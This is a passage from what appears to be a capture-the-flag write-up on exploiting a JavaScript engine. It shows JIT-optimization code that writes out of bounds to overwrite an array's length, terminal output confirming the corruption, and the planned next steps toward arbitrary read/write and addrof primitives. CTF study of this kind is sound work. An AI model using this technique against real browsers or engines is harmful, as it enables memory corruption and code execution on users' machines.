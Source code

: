 ```
// will lead to an OOB access.
//
// c will contain unpacked values and will be used for the addrof primitive
// d will contain packed values and will be used for arbitrary read/write
function foobar(idx) {
    let a = [0.1, 0.1, 0.1, 0.1, 0.1, 0.1];
    let b = [1.1, 1.2, 1.3, 1.4, 1.5];
    let c = [{}, 2.2, 2.3, 2.4, 2.5, 2.6, 2.7, 2.8];
    let d = [3.1, 3.2, 3.3, 3.4];

    a[idx * 16] = (1024*1024).smi2f();

    oob_buffer = b;
    oob_buffer_unpacked = c;
    oob_buffer_packed = d;
}

// optimize function
for (var i = 0; i < NUM_LOOPS_FOR_OPTIM ; i++) {
    foobar(0);
}

// trigger function with oob value :))
// deoptimization isn't triggered, thus we end up setting a[16] to (1024 * 1024)
// this offset happens to be oob_buffer's length field
foobar(1);

console.log("[+] oob_buffer.length: " + oob_buffer.length);
if (oob_buffer.length != (1024 * 1024)) {
    throw "[-] failed to corrupt ArrayBuffer lenght";
}

EOF
filename: /tmp/foobar.js
[+] oob_buffer.length: 1048576
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to localhost port 4444
➜  babys_first_js git:(pwn-js) ✗ python2
Python 2.7.15rc1 (default, Nov 12 2018, 14:31:15) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 1024*1024
1048576
>>> 
```

Great, the length of `oob_buffer` has been overwritten! The next steps are to
set up a few primitives:
* arbitrary read
* arbitrary write
* addr of: get the address of a JavaScript object
